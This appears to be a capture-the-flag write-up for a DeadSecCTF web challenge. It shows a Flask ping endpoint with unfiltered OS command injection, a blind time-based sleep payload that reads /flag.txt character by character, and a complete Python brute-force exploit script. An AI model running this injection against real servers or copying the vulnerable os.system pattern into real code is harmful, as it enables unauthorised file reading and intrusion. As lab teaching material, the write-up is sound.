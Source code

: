 # Web/Bing_Revenge

## Description

Attachments: [Bing_revenge.zip](./Bing_revenge.zip)

## Challenge Overview

This challenge was similar to the challenge `Web/Bing` that came in DeadSecCTF 2023. 

app.py
```py
#!/usr/bin/env python3
import os
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/flag', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'{host}'
        if not cmd:
             return render_template('ping_result.html', data='Hello')
        try:
            output = os.system(f'ping -c 4 {cmd}')
            return render_template('ping_result.html', data="DeadSecCTF2024")
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'error when executing command')
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Command timed out')

    return render_template('ping.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

In this challenge we are given a simple `Flask` application pings the input ip address that we give at `/flag` using `output = os.system(f'ping -c 4 {cmd}')`. It does not even filter the input we give. 

Thus we can easily send something like `; ls;` and it would execute on the server. The issue here was that the result of the command is not returned to us. Irrespective of the input we give, the server would only return `DeadSecCTF2024` in response.

One way is to get the flag by getting a reverse shell but that was not possible here as the admins had told that these instances do not have any connection to the internet, that is why we won't be able to get a reverse shell back.

Thus, the method we can use is a time based attack.

**Payload:** `; if [ $(cat /flag.txt | cut -c 1) = "D" ]; then sleep 10; fi; `

This is a simple payload. `;` helps us close the `ping` statement and then it runs a conditional statement that checks if the `first` character of the `flag` is `D`. If it is, then the program stop for `10 seconds` (you can have a shorter sleep time but I just used a longer one to be sure I get the correct character). Using this method we can character-wise bruteforce the flag.

## Exploit

exploit.py
```py
import requests
from string import printable
from time import time
from tqdm import tqdm

baseURL = "" # Your instance URL (like https://7c613d88f8c24c61ed3939b2.deadsec.quest)
# baseURL = "http://localhost:5000"

def flag(host):
    url = baseURL + "/flag"
    sendData = {"host": host}
    r = requests.post(url, data=sendData)
    res = r.text

    res = res.split("<pre>")[1]
    res = res.split("</pre>")[0]
    return res

correctFlag = "DEAD{"
wait = 10
for i in range(len(correctFlag)+1, 60+1):
    for letter in tqdm("}" + printable):
        exploit = f'; if [ $(cat /flag.txt | cut -c {i}) = "{letter}" ]; then sleep {wait}; fi; '
        start = time()
        flag(exploit)
        end = time()
        time_taken = end - start
        if (time_taken > wait):
            correctFlag += str(letter)
            break
    print(correctFlag)

print(correctFlag)

```

The script might give a `Connection Error` sometimes because of the server sometimes so you will then have to replace the `correctFlag` with the portion of the flag you have found out till now.

This gives us our flag `DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}`.